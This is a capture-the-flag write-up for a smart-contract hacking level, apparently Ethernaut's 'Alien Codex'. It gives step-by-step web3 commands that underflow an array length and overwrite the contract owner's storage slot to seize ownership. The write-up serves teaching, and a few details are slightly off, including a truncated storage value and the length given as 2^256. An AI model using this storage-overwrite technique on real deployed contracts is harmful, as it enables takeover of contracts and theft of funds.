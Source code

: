# How to solve the challenge
- [Need to know How Ethereum Storage work](https://docs.alchemy.com/docs/smart-contract-storage-layout#how-are-state-variables-stored-in-smart-contract-storage-slots)
- [Need to know How dynamic array work](https://docs.soliditylang.org/en/latest/internals/layout_in_storage.html#mappings-and-dynamic-arrays)

## <a id="ethereum-storage"></a> Ethereum Storage 

![Local Image](Docs/storage.png)

```ruby
await contract.owner()
'0x0BC04aa6aaC163A6B3667636D798FA053D43BD11'
```

Get storage at Alien codex contract index 0 that contain contact(bool) + owner(address)

```ruby
await web3.eth.getStorageAt(contract.address, 0, console.log());
'0x0000000000000000000000000bc04aa6aac163a6b3667636d798fa053d43bd11'
```

### MakeContact

```ruby
await contract.makeContact();
await contract.contract();
true
```

When call makeContact() function contact value is true. Contract storage index 0 is change.

```ruby
await web3.eth.getStorageAt(contract.address, 0, console.log());
'0x0000000000000000000000010bc04aa6aac163a6b3667636d798fa053d43bd1'
```

### Retract

```Ruby    
function retract() public contacted {
        codex.length--;
}
```

This will decrease the codex. length by 1. It get an underflow. 
This will change the codex.length to be 2<sup>256</sup>.
That mean total `Storage` capacity of the contract. 
This will allow us access to any variables stored in the contract.

```Ruby 
await contract.retract()
```

### Revise

```Ruby    
function revise(uint i, bytes32 _content) public contacted {
    codex[i] = _content;
}
```

#### Need to know
- [Fundamental store data in smart contract storage](./note.md)
- [How are state variables stored in smart contract storage slots?](https://docs.alchemy.com/docs/smart-contract-storage-layout#how-are-state-variables-stored-in-smart-contract-storage-slots)
- [How are dynamically-sized state variables stored in smart contract memory?](https://docs.alchemy.com/docs/smart-contract-storage-layout#how-are-dynamically-sized-state-variables-stored-in-smart-contract-memory)


Call the **`revise(i, _content)`** to change `Storage` value at slot 0 (contact(bool) + owner(address)
 - index (i)
	- ownerAddressIndex = `Storage` slot 0
	- ownerAddressIndex = `Storage` length + (bool) contract variables length - array length
	- ownerAddressIndex = ((2 ** 256) - 1) + 1 - uint(keccak256(abi.encode(1)));
	- 
        ```Ruby
        ownerAddressIndex = BigInt(2**256) - BigInt(web3.utils.keccak256(web3.eth.abi.encodeParameters(["uint256"],[1])))```
 - value (_content)
	- We need to parse player address to bytes32. Player address have 20 bytes, 
    so we need to add more 12 bytes to be 32 bytes
	- 32 bytes = 64 hex = we need to add 0, 24 round
	- 
        ```Ruby 
        playerAddress = '0x' + '0'.repeat(24) + player.slice(2);
        ```

        or

        ```Ruby 
        playerAddress = web3.utils.padLeft(player, 24);
        ```

```Ruby 
await contract.revise(ownerAddressIndex, playerAddress)
await contract.owner()
'0x6507A5F34D98B8345e182EF588AB14A7F4E714AE'
```

### For check TX

```Ruby 
await contract.address
'0x73311fFBED20f72C8E76F583A15DA81eE5819171'
```

https://sepolia.etherscan.io/address/0x73311fFBED20f72C8E76F583A15DA81eE5819171

### Result

This level exploits the fact that the EVM doesn't validate an array's ABI-encoded length vs its actual payload.

Additionally, it exploits the arithmetic underflow of array length, by expanding the array's bounds to the entire storage area of 2<sup>256</sup>. The user is then able to modify all contract storage.

Both vulnerabilities are inspired by 2017's [Underhanded coding contest](https://weka.medium.com/announcing-the-winners-of-the-first-underhanded-solidity-coding-contest-282563a87079)